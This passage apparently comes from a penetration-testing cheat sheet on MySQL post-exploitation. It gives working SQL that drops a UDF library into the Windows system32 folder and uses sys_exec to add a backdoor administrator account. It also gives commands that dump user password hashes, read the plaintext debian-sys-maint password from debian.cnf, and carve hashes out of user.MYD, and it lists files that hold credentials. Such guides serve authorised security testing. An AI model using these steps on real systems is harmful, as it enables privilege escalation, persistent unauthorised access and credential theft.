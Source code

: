 #### Windows

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

### Extracting MySQL credentials from the database

```sql
SELECT User,Host,Password FROM mysql.user;
SELECT User,Host,authentication_string FROM mysql.user;
```

```bash
mysql -u root --password=<PASSWORD> -e "SELECT User,Host,authentication_string FROM mysql.user;"
```

### Extracting MySQL credentials from files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the mysql database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** \(the ones that you can extract from mysql.user inside the database\)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Enabling logging

You can enable logging of mysql queries inside `/etc/mysql/my.cnf` uncommenting the following lines:

![](../.gitbook/assets/image%20%28308%29.png)

### Useful files

Configuration Files

* windows
  * * config.ini
    * my.ini
      * windows\my.ini
      * winnt\my.ini
    * &lt;InstDir&gt;/mysql/data/
  * unix
    * my.cnf
      * /etc/my.cnf
      * /etc/mysql/my.cnf
      * /var/lib/mysql/my.cnf
      * ~/.my.cnf
      * /etc/my.cnf
* Command History
  * ~/.mysql.history